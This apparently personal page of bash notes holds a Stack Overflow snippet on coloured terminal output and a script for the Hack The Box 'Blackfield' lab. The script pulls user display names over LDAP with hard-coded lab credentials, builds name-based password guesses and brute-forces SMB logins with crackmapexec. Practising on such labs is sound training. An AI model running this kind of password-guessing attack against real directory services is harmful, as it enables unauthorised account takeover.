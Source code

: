 Bash scripts

**Colors in bash**

https://stackoverflow.com/questions/5947742/how-to-change-the-output-color-of-echo-in-linux

You can use these [*ANSI escape codes*](https://en.wikipedia.org/wiki/ANSI_escape_code):

Black        0;30    Dark Gray    1;30
Red          0;31    Light Red    1;31
Green        0;32    Light Green  1;32
Brown/Orange 0;33    Yellow        1;33
Blue        0;34    Light Blue    1;34
Purple      0;35    Light Purple  1;35
Cyan        0;36    Light Cyan    1;36
Light Gray  0;37    White        1;37
And then use them like this in your script:

#    .---------- constant part!

#    vvvv vvvv-- the code from above

RED='\033[0;31m'
NC='\033[0m' # No Color
printf "I ${RED}love${NC} Stack Overflow\n"
which prints love in red.

From @james-lim's comment, **if you are using the echo command, be sure to use the -e flag to allow backslash escapes**.

# Continued from above example

echo -e "I ${RED}love${NC} Stack Overflow"
(don't add "\n" when using echo unless you want to add additional empty line)
**
**
**
**

* * *

**Extract sAMAccountName from LDAP and create passwords according to their names (Blackfield folders)**

users="$(pwd)/../tmp-users-valid.lst"

for i in $(cat $users)
do
        #Get the displayName from ldap

        search=$(ldapsearch -D support@blackfield.local -w "#00^BlackKnight" -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=LOCAL" "(sAMAccountName=${i})"|grep -i "displayName")

        echo $search

        #Filter the displayName

        username=$(echo $search | awk '{print $2,$3}')

        #Create file for the curent user to store the passwords in it

        > $(pwd)/passw-files/${i}.lst

        #Create passwords and fullfil the password file for the current user

        passwords=()

        firstname=$(echo $username | awk '{print $1}')
        lastname=$(echo $username | awk '{print $2}')

        password1=$firstname$lastname

        password2=$(echo $firstname|sed 's/\(\w\)\w*\( \|$\)/\1/g')$lastname

        passwords+=($password1)
        passwords+=($password2)

        for pass in "${passwords[@]}"
        do
                echo $pass >> $(pwd)/passw-files/${i}.lst
        done

        RED='\033[0;31m'
        GREEN='\033[0;32m'
        YELLOW='\033[0;33m'
        NC='\033[0m'

        printf "${YELLOW}Passwords generation done !${NC}\n"
        #printf "${YELLOW}$password2${NC}\n"

        #Brute force the user with the password file that we have generated above

        crackmapexec smb 10.10.10.192 -u $i -p $(pwd)/passw-files/${i}.lst | tee $(pwd)/output/${i}-output.lst

done

* * *